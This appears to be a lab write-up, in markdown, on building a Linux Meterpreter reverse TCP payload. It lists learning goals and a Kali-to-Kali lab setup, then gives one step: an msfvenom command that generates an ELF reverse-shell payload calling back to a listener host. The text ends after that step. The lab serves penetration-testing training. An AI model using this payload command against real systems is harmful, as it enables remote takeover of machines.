

# Lab 2 - Linux Meterpreter Reverse TCP lab

## Objective 

Understand:

- Linux payload generation

- ELF executable payloads

- Reverse TCP connections on Linux

- Metasploit listener configuration

- Meterpreter session interaction

- Basic post-exploitation enumeration

## Lab Environment

| Machine | Purpose |
|---|---|
| Kali Linux | Attacker Machine |
| Kali Linux | Target Machine |
| Metasploit Framework | Listener & session handling |

## Step 1 - Payload Creation

On Kali Linux terminal, switched to root privileges, and generated a Linux Meterpreter reverse TCP payload using _msfvenom_.

- **Payload Command**

  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.x.x.x LPORT=8081 -f elf > test.elf
